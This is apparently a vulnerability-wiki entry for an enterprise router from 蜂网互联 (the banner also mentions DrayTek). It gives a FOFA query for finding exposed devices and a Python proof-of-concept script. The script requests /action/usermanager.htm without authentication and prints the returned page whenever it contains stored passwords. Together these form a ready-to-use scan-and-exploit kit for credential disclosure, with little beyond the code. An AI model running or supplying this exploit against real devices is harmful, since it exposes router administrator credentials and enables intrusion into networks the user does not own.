 FOFA
----

    app="蜂网互联-互联企业级路由器"

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/action/usermanager.htm"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
            print("\033[32m[o] 正在请求 {}/action/usermanager.htm \033[0m".format(target_url))
            if "pwd" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            else:
                print("\033[31m[x] 不存在漏洞 \033[0m")
                sys.exit(0)
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)
            sys.exit(0)



    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)